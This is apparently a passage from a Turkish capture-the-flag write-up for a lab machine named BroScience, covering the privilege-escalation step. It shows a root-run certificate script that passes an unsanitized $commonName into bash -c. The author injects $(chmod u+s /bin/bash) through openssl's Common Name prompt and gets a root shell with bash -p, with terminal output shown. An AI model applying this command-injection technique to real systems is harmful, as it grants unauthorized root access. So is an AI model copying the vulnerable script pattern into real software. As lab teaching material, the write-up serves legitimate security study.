 Belirtilen sertifakanın süresini kontrol eder. Ona göre yenilenmesi gerekiyorsa devam eder.

```bash
echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
```

Alınan değişkenler ile yeni bir sertifika oluşturur. Burada `$commonName` değişkenine command injection uygulanabilir.

```bash
bill@broscience:/opt$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /dev/null -out /home/bill/Certs/broscience.crt -days 1
Generating a RSA private key
...++++
.......................................................................++++
writing new private key to '/dev/null'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:TR
State or Province Name (full name) [Some-State]:test
Locality Name (eg, city) []:test
Organization Name (eg, company) [Internet Widgits Pty Ltd]:testtest
Organizational Unit Name (eg, section) []:tetest
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /bin/bash)
Email Address []:a@a.com           
bill@broscience:/opt$
```

Bir süre bekledikten sonra bash dosyasının yetkilerini kontrol edeceğim.

```bash
bill@broscience:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
bill@broscience:/tmp$ bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) groups=1000(bill)
bash-5.1#
```

That’s all
